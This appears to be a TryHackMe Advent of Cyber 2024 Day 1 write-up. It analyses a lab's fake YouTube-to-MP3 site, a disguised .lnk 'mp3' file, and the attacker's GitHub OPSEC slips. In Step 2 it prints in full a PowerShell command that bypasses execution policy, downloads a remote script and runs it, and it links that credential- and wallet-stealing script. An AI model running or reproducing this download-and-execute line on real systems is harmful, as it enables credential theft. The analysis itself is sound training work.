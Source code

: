 # 🎄 TryHackMe Advent of Cyber 2024 – Day 1: OPSEC Challenge


## Challenge Overview 🎅

Day 1 of the **Advent of Cyber 2024** starts off strong by taking us through an investigation into a suspicious YouTube to MP3 converter website. The goal is to analyze downloaded files, uncover malicious behavior, and track down the attacker by following their OPSEC mistakes. Along the way, I explored:
- Metadata analysis with tools like `exiftool`
- Unpacking and inspecting PowerShell scripts
- Tracing digital breadcrumbs back to their source

This was a fun and hands-on start to the month!

## Objectives 🎯

1. Investigate the suspicious website and analyze how it works.
2. Look into the files downloaded from the site for anything malicious.
3. Trace the attacker’s identity using GitHub and highlight their OPSEC blunders.


## Step 1: Investigating the Website

The website, hosted at `10.10.200.221`, looked like a standard YouTube to MP3 converter. Here’s what I did:
1. Opened the site in the AttackBox and noticed the “About” page credited its creator as **“The Glitch.”**
2. Pasted a YouTube link into the form to download a file named `download.zip`.
3. Extracted the ZIP file and found two files inside:
   - **`song.mp3`**
   - **`somg.mp3`**

At this point, everything seemed normal, but the odd filename `somg.mp3` caught my attention.

## Step 2: File Analysis Using ExifTool 🔍

### Analyzing `song.mp3`

I started with the seemingly legitimate file, running:

```
exiftool song.mp3
```

**Result:**
- The file was confirmed to be a regular MP3 with standard metadata.
- Nothing unusual or malicious here—just an audio file.


### Analyzing `somg.mp3`

The suspiciously named `somg.mp3` was next. I ran:

```
exiftool somg.mp3
```

**Result:**
- This wasn’t an MP3 at all! It was actually a Windows Shortcut file (`.lnk`).
- The metadata revealed an embedded PowerShell command:

```
-ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
```

This command is clearly malicious—it bypasses PowerShell execution policies, downloads a script from a remote URL, and executes it on the victim’s machine.

## Step 3: Opening `somg.mp3` in Browser 🌐

To learn more, I opened the URL embedded in the PowerShell command:

[https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)

**Script Analysis:**
- The script collects sensitive data, such as:
  - Cryptocurrency wallet files
  - Browser credentials
- This stolen data is sent to a **Command and Control (C2) server** hosted by the attacker.

## Step 4: Tracing the Attacker on GitHub 🔗

The PowerShell script contained a signature:

```
"Created by the one and only M.M."
```

### GitHub Search

I searched GitHub for this signature:

```
"Created by the one and only M.M."
```

This led me to:
- A repository owned by **M.M.**
- GitHub Issues where M.M. interacted publicly, leaving a digital trail.

### Revealing the Attacker’s Identity

By following M.M.’s activity on GitHub, I uncovered:
1. **Real Name:** The attacker’s profile included their real name.
2. **Repositories:** They hosted malicious scripts publicly.
3. **Comments:** M.M.’s interactions in Issues sections tied their GitHub account to the malware.

## Key Findings 🔑

1. **Legitimate File:** `song.mp3` was harmless.
2. **Malicious File:** `somg.mp3` contained a PowerShell command to execute a malicious script.
3. **C2 Server:** The attacker’s script sent stolen data to a remote server.
4. **Attacker Identity:** Poor OPSEC practices on GitHub exposed "M.M."

## Lessons Learned 🌟

### OPSEC Failures

This challenge was a great reminder of how attackers often slip up:
- **Reused Aliases:** M.M. used the same username across platforms.
- **Identifiable Metadata:** Including a signature in the script made it traceable.
- **Public Interactions:** Commenting on GitHub linked M.M.’s activity to their malware.

### Tools and Techniques

Some of the key tools and steps I used:
- **`exiftool`:** To extract metadata and uncover the PowerShell command.
- **Browser Inspection:** To investigate URLs and find additional clues.
- **GitHub Search:** To trace the attacker and identify their OPSEC mistakes.

## Final Thoughts 🎁

Day 1 of the Advent of Cyber series kicked off with a solid introduction to metadata analysis, malicious script investigation, and tracking down an attacker’s identity. It was a great mix of technical analysis and detective work, and I’m excited to see what challenges Day 2 will bring!

- [Main Page](README.md)
- [Day 2: Log Analysis](Day2.md)
- [Day 3: Log Analysis](Day3.md)
- [Day 4: Atomic Red Team](day4.md)
- [Day 5: Coming Soon!](Day5.md)
- [More Days to Come!](#)
